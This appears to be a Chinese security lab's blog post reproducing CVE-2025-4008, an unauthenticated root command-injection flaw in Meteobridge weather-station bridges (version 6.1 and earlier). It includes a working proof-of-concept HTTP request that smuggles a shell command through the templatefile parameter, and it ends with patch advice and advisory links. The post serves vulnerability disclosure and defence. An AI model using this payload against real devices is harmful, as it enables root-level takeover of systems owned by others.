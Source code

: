 #  【成功复现】Meteobridge命令执行漏洞(CVE-2025-4008)   
原创 弥天安全实验室  弥天安全实验室   2025-06-06 00:46  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x01漏洞介绍**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAXjj8rw5hfmde1ViaHeXXXPLnaoibDjxpicPD1K9GMr48iaMZRnmVWqKRW2ibmibnDOCPkkps3sp11T5mA/640?wx_fmt=png&from=appmsg "")  
  
Meteobridge是Meteobridge公司的一款小型设备，可将个人气象站连接到公共气象网络。  
  
Meteobridge存在安全漏洞，该漏洞源于Web接口端点存在命令注入漏洞，可能导致未经认证的远程攻击者以root权限执行任意命令。  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x02影响版本**  
  
Meteobridge  
<= 6.1  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAXjj8rw5hfmde1ViaHeXXXPY0erORX9PqjLYSHJd0jjbao5Us8tExFgSQc0zdk1aUaafy244HGtCA/640?wx_fmt=png&from=appmsg "")  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x03漏洞复现**  
  
  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAXjj8rw5hfmde1ViaHeXXXPb3ZWicX6FgsmR9ocMExhfz6Imrw6h0HtP0Y7n9RCUfkoyS6gNMrgrDg/640?wx_fmt=png&from=appmsg "")  
  
2.对漏洞进行复现  
  
   
**POC**  
  
漏洞复现  
```
GET /public/template.cgi?templatefile=$(id) HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 
```  
  
     执行id命令，通过相应判断漏洞存在  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAXjj8rw5hfmde1ViaHeXXXPm8yric2dIRsv520OXg9gBK47ghdicUDTVndAqIOfsL0PwVh9icywppNpw/640?wx_fmt=png&from=appmsg "")  
  
  
3.Yakit插件  
测试  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAXjj8rw5hfmde1ViaHeXXXPOHqx3p3TB4ROTVG8wqBR6SBcs1k5vPEOX3FocB4NhzjoE1bJnZpPAA/640?wx_fmt=png&from=appmsg "")  
  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x04修复建议**  
  
  
目前厂商已发布升级补丁以修复漏洞，补丁获取链接：  
  
可以通过检查Meteobridge的版本号来确定是否受影响，使用命令`cat /version`查看当前版本。  
  
建议尽快升级修复漏洞，再次声明本文仅供学习使用，非法他用责任自负！                       
```
https://forum.meteohub.de/viewtopic.php?t=18687
https://www.onekey.com/resource/security-advisory-remote-command-execution-on-smartbedded-meteobridge-cve-2025-4008
```  
  
  
  
弥天简介  
  
学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。  
  
口号 网安引领时代，弥天点亮未来  
  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaqjXT4YxgHVARD1NNv0RvKtiaAvXhmruVqgavPY3stwrfvLKetGycKUfxIq3Xc6F6dhU7eb4oh2gg/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
   
  
  
知识分享完了  
  
喜欢别忘了关注我们哦~  
  
学海浩茫，  
  
予以风动，  
  
必降弥天之润！  
  
  
   弥  天  
  
安全实验室  
  
![Image](https://mmbiz.qpic.cn/mmbiz_jpg/MjmKb3ap0hDyTJAqicycpl7ZakwfehdOgvOqd7bOUjVTdwxpfudPLOJcLiaSZnMC7pDDdlIF4TWBWWYnD04wX7uA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
